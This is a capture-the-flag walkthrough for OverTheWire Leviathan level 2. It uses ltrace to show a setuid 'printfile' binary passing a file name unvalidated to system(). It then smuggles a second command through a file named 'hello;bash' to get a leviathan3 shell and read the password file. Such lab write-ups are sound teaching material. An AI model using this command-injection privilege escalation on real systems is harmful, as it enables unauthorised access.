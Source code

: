 # Leviathan Level 2

## Level Goal  

There is no information for this level, intentionally.


## Walkthrough 
Login to the server using the password obtained from the previous level [Leviathan level 1](../leviathan1/README.md). 

username: `leviathan2` 

```ssh
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```

With no description given first thing we do is check what is in the home directory.

```console
leviathan2@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
-rw-r--r--  1 root       root        675 May 15  2017 .profile
leviathan2@leviathan:~$ 
```

There is a executable named `printfile` that will run with leviathan3 permissions.

When running the file we find out it takes a file name as it's argument.

```console
leviathan2@leviathan:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
```

Since it runs with `leviathan3` permissions we can try printing the password file leviathan3.

```console
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Using `ltrace` we can begin to see what the executable is doing.

```console
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                  = -1
puts("You cant have that file..."You cant have that file...
)                                                            = 27
+++ exited (status 1) +++
```

The first thing it does is call `access`. Access is used to check if the user has permission to access the given file, it also dereferences symbolic links so we cannot create a simlink to the password file. 

```
access() 
    checks whether the calling process can access the file pathname.  
    If pathname is a symbolic link, it is dereferenced.
```

So we have seen what happens when we do not have permission to read a file, what happens when we do have the correct permission.
We create a file `sayHello` and write 'hello' to the file.
When we run `printfile` on sayHello we get the text 'hello' back.

```console
leviathan2@leviathan:/tmp/mine2$ echo "hello" > sayHello
leviathan2@leviathan:/tmp/mine2$ ls
sayHello

leviathan2@leviathan:/tmp/mine2$ ~/printfile sayHello 
hello
```

Now we can use ltrace to dig deeper into what `printfile` is doing.


```console
leviathan2@leviathan:/tmp/mine2$ ltrace ~/printfile sayHello 
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("sayHello", 4)                                             = 0
snprintf("/bin/cat hello", 511, "/bin/cat %s", "sayHello")        = 14
geteuid()                                                         = 12002
geteuid()                                                         = 12002
setreuid(12002, 12002)                                            = 0
system("/bin/cat sayHello"hello
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                            = 0
+++ exited (status 0) +++
```

We can see that the file is 
- checking if we have permission to access the file
- getting the effective uid
- setting the effective uid to leviathan3
- using system to run /bin/cat on the given file


Since the input is being passed directly to `system` it is not performing any validation.
We can pass other commands by creating files with special characters like `;` which is used to enter multiple commands in the terminal.


```console
leviathan2@leviathan:/tmp/mine2$ touch 'hello;bash'

leviathan2@leviathan:/tmp/mine2$ ~/printfile 'hello;bash' 
/bin/cat: hello: No such file or directory
leviathan3@leviathan:/tmp/mine2$ 
```

Now we have a shell as `leviathan3`, we can read the password file.

```console
leviathan3@leviathan:/tmp/min2$ cat /etc/leviathan_pass/leviathan3
Ahd*******
```

